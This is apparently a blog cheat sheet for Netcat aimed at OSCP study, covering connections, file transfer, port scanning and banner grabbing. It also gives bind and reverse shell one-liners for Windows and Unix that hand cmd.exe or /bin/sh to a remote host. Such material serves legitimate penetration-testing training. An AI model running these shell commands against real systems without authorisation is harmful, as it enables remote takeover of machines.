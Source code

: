 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet, OSCP
tags:
  - Netcat
---
```


Netcat which has been famously labeled as the "Swiss army knife of hacking" is a networking utility used for reading/writing from TCP/UDP sockets, port scanning, file transfer, port listening, and backdooring.

# Usage
***

![Netcat Usage](/assets/images/netcat.JPG)

# Basic Commands  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP> <PORTS>`

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacker - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
